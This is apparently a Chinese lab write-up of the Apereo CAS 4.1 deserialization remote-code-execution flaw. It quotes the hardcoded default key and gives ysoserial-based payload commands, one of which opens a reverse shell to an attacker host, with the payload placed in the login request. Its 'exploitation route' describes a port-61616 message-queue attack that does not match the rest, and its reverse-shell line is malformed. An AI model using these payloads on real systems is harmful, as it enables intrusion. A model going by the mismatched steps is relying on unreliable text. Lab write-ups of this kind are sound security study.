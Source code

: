 # Apereo CAS 4.1反序列化RCE漏洞

###### by ADummy

### 0x00利用路线

​			构造（可以使用ysoserial）可执行命令的序列化对象--->发送给目标61616端口--->访问web管理页面，读取消息，触发漏洞--->代码执行

### 0x01漏洞介绍

​			Apereo CAS是企业级单点登录系统。CAS试图通过Apache Commons Collections库对对象进行反序列化的过程中存在一个问题，该案例引起了RCE漏洞。Apereo Cas一般是用来做身份认证的，所以有一定的攻击面，漏洞的成因是因为key的默认硬编码，导致可以通过反序列化配合Gadget使用。

​			**影响版本**

```
Apereo CAS <= 4.1.7  之后的版本也可以，没看明白，变强了后补充
```

### 0x02漏洞复现

**4.1.7之前的Apereo CAS的现成默认配置使用默认密钥`changeit`**

```
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

**我们可以尝试使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)生成加密的[ysoserial](https://github.com/frohoff/ysoserial)的序列化对象，然后，从的登录操作中拦截并修改http请求`/cas/login`，将有效负载放入`execution`的值中**

#### **payload：**

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -i >& /dev/tcp/your-ip/8888>&1"
```

​			**登录页面**

![ApereoCAS_4_x反序列化RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ApereoCAS_4_x反序列化RCE_1.png)

​			**生成加密的序列化对象**(JDK1.7会失败，我用的JDK1.8)

![ApereoCAS_4_x反序列化RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ApereoCAS_4_x反序列化RCE_2.jpg)

​			**Burpsuite抓包，修改execution的值**

![ApereoCAS_4_x反序列化RCE_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ApereoCAS_4_x反序列化RCE_3.jpg)

​			**发现 touch  /tmp/success被执行**

![ApereoCAS_4_x反序列化RCE_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ApereoCAS_4_x反序列化RCE_4.jpg)

​			**攻击机未接到shell(不知道什么问题)**



### 0x03参考资料

https://nosec.org/home/detail/4131.html

